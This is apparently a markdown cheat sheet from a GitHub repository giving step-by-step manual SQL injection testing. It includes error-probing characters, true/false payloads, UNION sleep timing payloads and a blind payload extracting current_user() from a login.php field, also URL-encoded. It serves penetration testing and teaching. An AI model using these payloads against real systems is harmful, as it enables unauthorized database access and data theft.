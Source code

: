 # SQL Injection Manually Step by Step

## 1. Determine if SQL injection exists

- Try injecting characters reserved in databases to produce error messages

```SQL
    single-quote
    back-slash
    double-hyphen
    forward-slash
    period
```

- If error message is produces, examine message for helpful errors, queries, database brand, columns, tables or other information.
- If no error message present, send valid data, "true" injections ("or 1=1") and "false" injections ("and 1=0"). Look for difference in the three responses

```SQL
  Technique: Blind SQL Injection - True and False Values
  Field: username
  True Value (Using Proxy): ' or 1=1 --
  False Value (Using Proxy): ' and 1=0 --
```

- If no errors nor differences are produced, try timing attacks ("mysql sleep(), sql server waitfor(), oracle sleep()")

```SQL
    ' union Select null, null, null, sleep(5) --
```

## 2. Determine injection types that work

- UNION statements
  - Determine number of columns in application query. Inject NULL columns until injected query works.
  - Determine position of a varchar or equivalent column
  - Use position of found column(s) to place injected columns. Use NULL for rest
- Inline injection
  - Usually happens when ORDER BY or HAVING clause present in application query
- Timing injection

```SQl
    Technique: Blind SQL Injection - Timing
    Page: login.php
    Field: username
    Value (Using Proxy): ' union Select null, case SUBSTRING(current_user(),1,1) when 'r' THEN sleep(5) ELSE sleep(0) END, null, null --
    Value (Using Direct Request): username=%27%20union%20Select%20null%2C%20case%20SUBSTRING%28current_user%28%29%2C1%2C1%29%20when%20%27r%27%20THEN%20sleep%285%29%20ELSE%20sleep%280%29%20END%2C%20null%2C%20null%20--%20&password=&login-php-submit-button=1
```
